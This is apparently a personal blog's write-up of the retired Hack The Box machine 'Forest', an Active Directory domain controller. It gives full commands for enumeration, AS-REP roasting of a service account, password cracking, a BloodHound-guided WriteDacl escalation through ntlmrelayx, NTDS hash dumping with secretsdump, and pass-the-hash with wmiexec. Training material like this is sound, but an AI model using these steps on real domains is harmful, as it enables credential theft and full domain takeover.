 ```yaml
---
permalink: /posts/HTB/Forest
title: "HTB Forest Write-up"
header-img: "/assets/images/HTB/Forest/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Forest/InfoCard.jpg"
description: "Hackthebox's Forest is an easy-rated Windows box that acts as the domain controller for the htb.local domain."
categories: 
  - CTF
date: 2020-03-21 17:28
tags: HTB Windows AD DACL BloodHound
---
```


# Hackthebox - Forest - 10.10.10.161
## Summary
Today [Hackthebox](https://www.hackthebox.eu) retired Forest, an easy-rated Windows box that acts as the domain controller for the htb.local domain. This was a great learning experience since Forest was my first Windows Domain Controller, and I got a chance to learn how to use Impacket's AD-oriented scripts, as well as getting familiar with BloodHound and SharpHound.
Here's my write-up.
>*Note that the screenshots are taken today (2020-03-21) because I didn't do a proper write-up during my first run on Forest, so I had to do another run on it today to properly document the process.*

![InfoCard](/assets/images/HTB/Forest/InfoCard.jpg)

## Enumeration

For an initial scan I used the following nmap command 
```
nmap -A -sV -o nmapinitial -T4 10.10.10.161
```
![nmapinitial01](/assets/images/HTB/Forest/nmapinitial01.jpg)

![nmapinitial02](/assets/images/HTB/Forest/nmapinitial02.jpg)

The nmap scan reveals that the machine is a domain controller for the htb.local domain judging by the 2 LDAP services ports (389 and 3268).
Even if the smb port is opened, attempting to list shares using smbclient does not list anything without proper authentication. 

While nmap was running, I also kicked off enum4linux to get a better idea of users, groups, service accounts, and accessible network shares.
```
enum4linux -o -U -G -S -P 10.10.10.161 > enum4linux.txt
```
Once finished, enum4linux returns some useful information about the target.
For starters, it looks like there's no propper password complexity policy put in place, meaning that, if I'm able to obtain a hash, it should be failry easy to crack since nothing is forcing users to set complex passwords.

![enum4linux_passpolicy](/assets/images/HTB/Forest/enum4linux_passpolicy.jpg)

The local user accounts where retunred, including a service account - svc-alfresco

![enum4linux_users](/assets/images/HTB/Forest/enum4linux_users.jpg)

This also shows the fact that the target is running Microsoft Exchange Server, which might be a path for privilege escalation.

## Initial Foothold and User Flag

After reading a bit through the [Forest HTB Forum](https://forum.hackthebox.eu/discussion/2319/forest#latest) thread, I saw a few hints pointing towards Impacket's GetNPUsers.py script (more examples on kerberos attacks can be found [here](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)).
I've tried running the script against all the users i've found using enum4linux, and the only one that did not require Kerberos pre-authentication was svc-alfresco os I was able to get its TGT with the following command 
```
python ~/Scripts/Impacket/impacket-0.9.20/examples/GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161 -format john
```
![TGThash](/assets/images/HTB/Forest/TGThash.jpg)

Which I then proceede to crack using john.

![john](/assets/images/HTB/Forest/john.jpg)

It looks like the password for svc-alfresco is __s3rvice__ and I am able to use it with evil-winrm 
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice' -s './ps1_scripts/' -e './exe_files/'
```
and get the user flag.

![userflag](/assets/images/HTB/Forest/userflag.jpg)

## Privilege escalation

A forum user hinted that [BloodHound's](https://github.com/BloodHoundAD/BloodHound) SharpHound.exe ingestor (I couldn't get SharpHound.ps1 to run through evil-winrm) can be used to get a better idea of what the shortest route to DA would be.
So I booted my Windows VM, started CMD as svc-alfresco and executed SharpHound.exe.

![SharpHound_exe](/assets/images/HTB/Forest/SharpHound_exe.jpg)

I then move the resulting .zip file to my Kali VM, fire up neo4j console and bloodhound, and import the zip file into BloodHound for querying.
The "Find Shortest Paths to Domain Admins" query shows that I can use the fact that svc-alfresco is a member of the Account Operators group to add either the service account itself or a newly created account to the Exchange Windows Permissions group, whose WriteDacl access on the Domain object in Active Directory can be used to escalate to DA, as outlined [here](https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/).

![BloodHound](/assets/images/HTB/Forest/BloodHound.jpg)

I picked the route of creating a separate user account that I can add to the Exchange Windows Permissions group.
I connect with evil-winrm as svc-alfresco to create the following user account and add it to all the required groups:
```
New-ADUser -Name "TestUser" -Type User -AccountPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force) -Enabled $True
Add-AdGroupMember -Identity  "Remote Desktop Users" -Members TestUser
Add-AdGroupMember -Identity  "Remote Management Users" -Members TestUser
Add-AdGroupMember -Identity  "Exchange Windows Permissions" -Members TestUser
```
After that, I can use Impacket's ntlmrelayx.py to escalate TestUser's privileges
```
python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user TestUser
```
![TestUser_privesc](/assets/images/HTB/Forest/TestUser_privesc.jpg)

Now I can use Impacket's secretsdump.py with TestUser's credentials to dump all the password hasses contained in the NTDS.DIT file on 10.10.10.161.

![hashes](/assets/images/HTB/Forest/hashes.jpg)

With the Admin hash obtained through secretsdump.py, I can use wmiexec.py to connect as Administrator 
```
python wmiexec.py -hashes aad..4ee:326..ea6 Administrator@10.10.10.161
```

![adminroot](/assets/images/HTB/Forest/adminroot.jpg)

And remove the TestUser account.

![delete_testuser](/assets/images/HTB/Forest/delete_testuser.jpg)
